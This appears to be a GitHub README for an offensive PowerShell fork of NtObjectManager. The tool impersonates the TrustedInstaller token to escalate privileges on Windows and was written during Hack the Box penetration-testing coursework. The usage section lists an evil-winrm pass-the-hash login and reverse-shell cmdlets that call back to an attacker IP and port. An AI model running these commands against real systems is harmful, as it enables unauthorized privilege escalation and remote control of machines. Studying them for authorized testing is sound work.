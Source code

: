 # Evil-NTObjectManager: Fork of NtObjectManager from Google Project Zero with Additional Privilege Escalation Functionality

While going through the [Hack the Box Academy](https://academy.hackthebox.com) Penetration Tester Role Path (the course material for Hack the Box's all-powerful Certified Penetration Testing Specialist, or CPTS, certification), one of things I was tasked with doing was using the SeImpersonatePrivilege, SeDebugPrivilege, and other such escalation vectors within Windows targets to quickly and efficiently break out of restricted environments and find flags hidden in the target systems. In the Windows Privilege Escalation module, one of the ways in which this can be achieved is through manipulation of Windows services using the `sc.exe` binary, i.e. with the `binpath=` argument. However, there are a few caveats to this approach:

1. The process is very destructive and thus easily detectable by countermeasures that the target may have in place.
2. If you use `sc` to load, say, a Metasploit payload, it's not going to last for very long; you need to spawn a secondary shell quickly before the service start attempt times out.
3. If a service is already running, you need to stop it before you can configure it.

Knowing this, I thought to myself, "What core Windows services are stopped by default, have high privileges, and are easy to impersonate?" That's when I remembered that I had previously watched [this John Hammond video](https://youtu.be/Vj1uh89v-Sc?si=my7yy2IFgrFNsdYG) which mentioned one such service: the all-powerful [TrustedInstaller](https://reddit.com/r/Windows10/comments/17m3cyr/how_does_one_become_trustedinstaller/) which has some privileges, such as the ability to delete Windows core components or inject executables deep into the `C:\Program Files\WindowsApps` directory where even Defender won't have permission to do anything, that even `NT AUTHORITY\SYSTEM` does not have. However, the method that Hammond outlines in the video was for a time a very tedious process that involved typing 7 so sequential commands into the PowerShell console just to grab the permission token. Was, that is, until now.

In this project, I've managed to wrap the entire process of starting TrustedInstaller only to immediately impersonate the token into one cmdlet: `Invoke-TrustedInstaller`. In addition, I've added two additional functions for spawning and fully backgrounding new reverse shells from entirely within the context of the highest privileged Windows service of them all.

## Usage

```bash
evil-winrm -i x.x.x.x -u Administrator -H 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' -s "$PWD/Evil-NtObjectManager"
<SNIP>
```
```powershell
*Evil-WinRM* PS C:\> TrustedInstaller.ps1
```

```powershell
Import-Module .\TrustedInstaller.ps1
```

```powershell
Invoke-TrustedInstaller
```

```powershell
Invoke-TIRevShell -IP x.x.x.x -Port 4444
Invoke-TIRevShellTLS -IP x.x.x.x -Port 4444
```